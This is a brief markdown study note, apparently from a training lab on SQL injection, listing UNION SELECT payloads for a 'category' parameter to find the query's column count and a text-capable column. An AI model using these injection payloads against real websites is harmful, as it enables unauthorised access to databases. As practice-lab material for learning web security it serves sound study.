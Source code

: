 ```yaml
---
dg-publish: true
---
```







- Verify that the query is returning three columns, using the following payload in the `category` parameter:

```Plain
'+UNION+SELECT+NULL,NULL,NULL--
```

- Try replacing each null with the random value provided by the lab, for example:
    - `'+UNION+SELECT+'abcdef',NULL,NULL--`
    - Replace via Inspector → Selection
